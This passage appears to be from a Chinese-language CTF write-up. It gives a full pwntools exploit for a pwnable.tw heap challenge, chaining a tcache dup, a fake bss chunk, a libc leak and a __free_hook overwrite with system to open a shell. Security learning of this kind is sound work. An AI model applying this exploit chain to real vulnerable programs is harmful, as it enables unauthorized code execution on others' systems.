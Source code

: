 ## 完整exp 

最终完整exp采用第二种方法劫持控制流：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
mylibc = ELF("./libc2.27.so")
io =  remote("chall.pwnable.tw",10207)

sla     = lambda delim,data :  io.sendlineafter(delim,data)
init    = lambda name       :  sla("Name:",name)
malloc  = lambda size,data  : (sla("choice :","1"),sla("Size:",str(size)),sla("Data:",data))
free    = lambda            :  sla("choice :","2")
info    = lambda            :  sla("choice :","3")

# use tcache dup to arbitrary address write
def aaw(len,addr,data):
    malloc(len,'a')
    free()
    free()
    malloc(len,p64(addr))
    malloc(len,'a')
    malloc(len,data)

# use aaw to make a fake chunk in bss, and free it to unsorted bin (tcache house of spirit)
name_bss = 0x602060
init(p64(0)+p64(0x501))
aaw(0x50,name_bss+0x500,(p64(0)+p64(0x21)+p64(0)*2)*2)
aaw(0x60,name_bss+0x10,'a')
free()

# use unsorted bin chunk to leak libc
info()
io.recvuntil("Name :");io.recv(0x10)
libc_addr = u64(io.recv(8)) - 0x3ebca0
free_hook = libc_addr + mylibc.symbols['__free_hook']
system    = libc_addr + mylibc.symbols['system']

# use aaw to modify __free_hook to system
aaw(0x70,free_hook,p64(system))
malloc(0x80,"$0\x00")

# call free to getshell
free()
io.interactive()
```

## 思考

如果把这到题目放在2.23版本的libc下应该怎么做呢？